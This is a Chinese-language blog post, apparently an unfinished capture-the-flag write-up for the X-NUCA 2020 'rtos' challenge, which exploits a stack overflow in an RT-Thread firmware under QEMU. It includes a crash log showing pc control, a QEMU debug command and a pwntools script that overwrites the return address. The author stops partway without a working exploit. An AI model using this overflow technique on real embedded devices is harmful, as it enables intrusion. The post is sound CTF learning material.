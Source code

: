```yaml
---
title: X-NUCA'2020 rtos
date: 2020-11-22 00:00:00
categories:
- CTF/Pwn
tags: rtos 
---
```


> 卡住了...更新中...rt-thread的main函数栈溢出，不用getshell，ROP/shellcode读出根目录下的flag即可：


赛题仓库：[XNUCA2020Qualifier](https://github.com/NeSE-Team/XNUCA2020Qualifier)，目前未更新此题。故给出题目附件如下，比赛时开始没符号，后来因为零解，然后放了有符号的ELF版，比赛最后服务器端的pow也直接去掉了：

- [rtos_no_symbols.zip](https://xuanxuanblingbling.github.io/assets/attachment/rtos/rtos_no_symbols.zip)
- [rtos_symbols.zip](https://xuanxuanblingbling.github.io/assets/attachment/rtos/rtos_symbols.zip)



## 开发尝试

- [rt-thread 源码仓库](https://github.com/RT-Thread/rt-thread)
- [rt-thread 文档中心](https://www.rt-thread.org/document/site/)
- [rt-thread qemu入门指南](https://github.com/RT-Thread/rtthread-manual-doc/blob/master/documentation/quick_start_qemu/quick_start_qemu_linux.md)

编译方法非常简单，进`/rt-thread/bsp/qemu-vexpress-a9/`，然后执行`scons`即可编译。业务代码可以修改`/rt-thread/bsp/qemu-vexpress-a9/applications/main.c`，尝试直接输出flag：

```c
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <dfs_posix.h> 

int main(void)
{
	char a[0x64];
	int fd;
    fd = open("/flag",O_RDONLY);
    read(fd,a,0x64);
    puts(a);
    return 0;
}
```

需要在sd卡中新建flag，可以进rt-thread后新建，也可以是用linux直接挂载文件系统新建

## 题目漏洞

> 一开始研究半天咋跟这玩意交互，直接qemu启动后，命令行里输入没有显示，后来发现使用文件加管道重定向给qemu可以获得比较正常的输入输出

就是个栈溢出，但是溢出点的数值不知道为啥被改了，看起来是数值加3：

```bash
$ python3 -c "print('1'*0x40)" | ./run.sh
WARNING: Image format was not specified for 'sd.bin' and probing guessed raw.
         Automatically detecting the format is dangerous for raw images, write operations on block 0 will be restricted.
         Specify the 'raw' format explicitly to remove the restrictions.
pulseaudio: set_sink_input_volume() failed
pulseaudio: Reason: Invalid argument
pulseaudio: set_sink_input_mute() failed
pulseaudio: Reason: Invalid argument
qemu-system-arm: warning: hub 0 is not connected to host network

 \ | /
- RT -     Thread Operating System
 / | \     4.0.3 build Oct 30 2020
 2006 - 2020 Copyright by rt-thread team
lwIP-2.0.2 initialized!
[I/sal.skt] Socket Abstraction Layer initialize success.
[I/SDIO] SD card capacity 65536 KB.
file system initialization done!
welcome to simple rtos pwn level 1

read 1111111111111111111111111111111111111111111111111111111111111111
byebye
prefetch abort:
Execption:
r00:0x00000000 r01:0x07860785 r02:0x00000786 r03:0x00000000
r04:0xdeadbeef r05:0xdeadbeef r06:0xdeadbeef r07:0xdeadbeef
r08:0xdeadbeef r09:0xdeadbeef r10:0xdeadbeef
fp :0x31313131 ip :0x01010101
sp :0x6009ce78 lr :0x60012cbc pc :0x31313134
cpsr:0x60000033
shutdown...
```

修改`run.sh`开始调试：

```bash
qemu-system-arm -M vexpress-a9 -smp cpus=2 \
	-kernel binary.bin \
	-nographic -sd sd.bin -net nic \
	-serial mon:stdio \
	-monitor /dev/null \
	-gdb tcp::1234 -S
```

但是如果输入包含`0x01`，就会发生奇怪额现象....

```python
from pwn import *
context(arch='arm',log_level='debug')

io = process(["bash","./run.sh"])
io.recvuntil("2006 - 2020 Copyright by rt-thread team") 
payload = 'A'*(0x20)
payload += p32(0x11223344) 
payload += p32(0x60012518)
io.sendline(payload)
io.interactive()
```

输入的`0x60012518`就会再过了scanf后直接在栈上变成`0x60002518`

```c
───────────────────────────────────[ DISASM ]───────────────────────────────────
 ► 0x60012558    pop    {fp, pc}
    ↓
   0x60002518    andeq  r0, r0, r0
   0x6000251c    andeq  r0, r0, r0
   0x60002520    andeq  r0, r0, r0
   0x60002524    andeq  r0, r0, r0
   0x60002528    andeq  r0, r0, r0
   0x6000252c    andeq  r0, r0, r0
   0x60002530    andeq  r0, r0, r0
   0x60002534    andeq  r0, r0, r0
   0x60002538    andeq  r0, r0, r0
   0x6000253c    andeq  r0, r0, r0
───────────────────────────────────[ STACK ]────────────────────────────────────
00:0000│ sp   0x6009ce70 —▸ 0x11223344 ◂— 0
01:0004│ r11  0x6009ce74 —▸ 0x60002518 ◂— 0
02:0008│      0x6009ce78 —▸ 0xdeadbeef ◂— 0
03:000c│      0x6009ce7c ◂— 0
04:0010│      0x6009ce80 —▸ 0xdeadbeef ◂— 0
05:0014│      0x6009ce84 —▸ 0x6001ed64 ◂— push   {r4, fp, lr} /* 0xe92d4810 */
06:0018│      0x6009ce88 —▸ 0x23232323 ◂— 0
07:001c│      0x6009ce8c ◂— andeq  r1, r1, r0, lsr #29 /* 0x11ea0 */
─────────────────────────────────[ BACKTRACE ]──────────────────────────────────
 ► f 0 60012558
────────────────────────────────────────────────────────────────────────────────
Breakpoint * 0x60012558
pwndbg> 
```

进行不下去了...

## 参考

- [凝聚网络安全工作室 X-NUCA'2020 WriteUp: rtos](https://blog.cnss.io/2020/11/01/X-NUCA_2020_WriteUp_-_CNSS/#rtos)
- [Dive into VxWorkis Based IoT Device - Debug the Undebugable Device - resize](https://i.blackhat.com/asia-19/Fri-March-29/bh-asia-Zhu-Dive-into-VxWorks-Based-IoT-Device-Debug-the-Undebugable-Device.pdf)